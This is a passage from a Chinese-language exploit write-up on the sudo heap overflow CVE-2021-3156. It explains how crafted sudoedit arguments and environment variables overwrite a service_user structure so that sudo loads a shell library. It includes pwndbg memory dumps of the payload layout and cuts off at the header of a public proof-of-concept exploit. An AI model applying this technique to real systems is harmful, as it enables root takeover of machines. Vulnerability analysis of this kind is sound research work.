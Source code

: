 拿到上述的堆布局之后就可以将`user_args`长度设置为`0x80`，申请得到`0x555555580a90`堆块，之后就可以覆写`0x555555581380`的`group files service_user`结构体了。

这里我们看到堆块之间的差值是`0x8f0`，我们需要覆写这些长度。中间这些堆块都是在进行`setlocale`中产生的，对之后的程序进行没有影响，可以直接覆写。根据之前溢出的规则，遇到`\\`就会继续向后读。目前`exp`中参数设置如下

```
"sudoedit", "-s", smash_a, "\\", smash_b, NULL, envp
```

参数和环境变量在内存中的表现方式如下

```
// argv-&gt;0x7ffc304d1a18
pwndbg&gt; telescope 0x7ffc304d1a18
00:0000│ rdx  0x7ffc304d1a18 —▸ 0x7ffc304d1df6 ◂— 'sudoedit'
01:0008│      0x7ffc304d1a20 —▸ 0x7ffc304d1dff ◂— 0x414141414100732d /* '-s' */
02:0010│      0x7ffc304d1a28 —▸ 0x7ffc304d1e02 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\\'
03:0018│      0x7ffc304d1a30 —▸ 0x7ffc304d1e3c ◂— 0x424242424242005c /* '\\' */
04:0020│      0x7ffc304d1a38 —▸ 0x7ffc304d1e3e ◂— 'BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB\\'
05:0028│      0x7ffc304d1a40 ◂— 0x0
06:0030│      0x7ffc304d1a48 —▸ 0x7ffc304d1e76 ◂— 0x5c005c005c005c /* '\\' */
07:0038│      0x7ffc304d1a50 —▸ 0x7ffc304d1e78 ◂— 0x5c005c005c005c /* '\\' */
//...
pwndbg&gt;
40:0200│   0x7ffc304d1c18 —▸ 0x7ffc304d1eea ◂— 0x5c005c005c005c /* '\\' */
41:0208│   0x7ffc304d1c20 —▸ 0x7ffc304d1eec ◂— 0x5c005c005c005c /* '\\' */
42:0210│   0x7ffc304d1c28 —▸ 0x7ffc304d1eee ◂— 0x2f58005c005c005c /* '\\' */
43:0218│   0x7ffc304d1c30 —▸ 0x7ffc304d1ef0 ◂— 0x30502f58005c005c /* '\\' */
44:0220│   0x7ffc304d1c38 —▸ 0x7ffc304d1ef2 ◂— 0x5f5030502f58005c /* '\\' */
45:0228│   0x7ffc304d1c40 —▸ 0x7ffc304d1ef4 ◂— 'X/P0P_SH3LLZ_'
46:0230│   0x7ffc304d1c48 —▸ 0x7ffc304d1f02 ◂— 0x433d4c4c415f434c ('LC_ALL=C')
47:0238│   0x7ffc304d1c50 ◂— 0x0
```

需要注意的是栈中每一个参数的结尾依靠的是`\\`。首先第一次复制，遇到`\\`会将`\\, smash_b, envp`拷贝一遍，然后是第二次复制，参数即为`\\`因此会将`smash_b,envp`拷贝一遍，接着是`smash_b`，由于`smash_b`之后也是`\\`，因此会一直继续拷贝，也就是将`envp`拷贝了一遍。借着就结束拷贝了。也就是说`smash_b,envp`都被拷贝了三遍，`smash_a`被拷贝了一遍。注意到每一次拷贝结束都会在结尾处加`space`即空格（最后一个空格会被覆写为`0`）。在设定`smash_a,smash_b,envp`的长度的时候基本就是`user_args/2`即为`smash_a,smash_b`的值，剩余的值`/3`就是`envp`的长度，不够的话再用`smash_a`的长度进行微调。

当我们覆写完毕`group service_user`结构体的`name`字段之后，`sudo`会经过一系列的调用直到`nss_load_library`最终打开`getshell`的动态链接库。

关于动态链接库编译有无空格的问题，如果是精准覆写`name`，那么就不需要空格，因为之后会被覆写为`0`，否则就需要空格。

[![](https://p5.ssl.qhimg.com/t01b9680e709fa50e15.png)](https://p5.ssl.qhimg.com/t01b9680e709fa50e15.png)



## EXP

```
/**
 ** CVE-2021-3156 PoC by blasty &lt;peter@haxx.in&gt;
 ** ===========================================
 **
 ** Exploit for that sudo heap overflow thing everyone is talking about.
 ** This one aims for singleshot. Does not fuck with your system files.
 ** No warranties.
 **
 ** Shout outs to:
 **   Qualys      - for pumping out the awesome bugs
 **   lockedbyte  - for coop hax. (shared tmux gdb sessions ftw)
 **   dsc         - for letting me rack up his electricity bill
 **   my wife     - for all the quality time we had to skip
 **
 **  Enjoy!
```
